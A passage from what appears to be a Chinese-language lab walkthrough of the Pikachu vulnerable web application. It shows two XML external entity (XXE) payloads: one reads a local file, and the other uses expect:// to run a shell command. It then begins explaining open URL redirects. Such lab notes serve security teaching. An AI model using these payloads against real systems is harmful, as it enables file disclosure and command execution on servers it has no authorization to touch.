 ![image](../../../../assets/img/安全/实验/Misc/pikachu/70.png)

payload,请先确定目标路径有这个文件
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
```

![image](../../../../assets/img/安全/实验/Misc/pikachu/71.png)

在 linux 下还可以输入这样的 payload
```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
```

---

## URL 重定向

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方.

如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地,而又没有做判断的话

就可能发生"跳错对象"的问题.
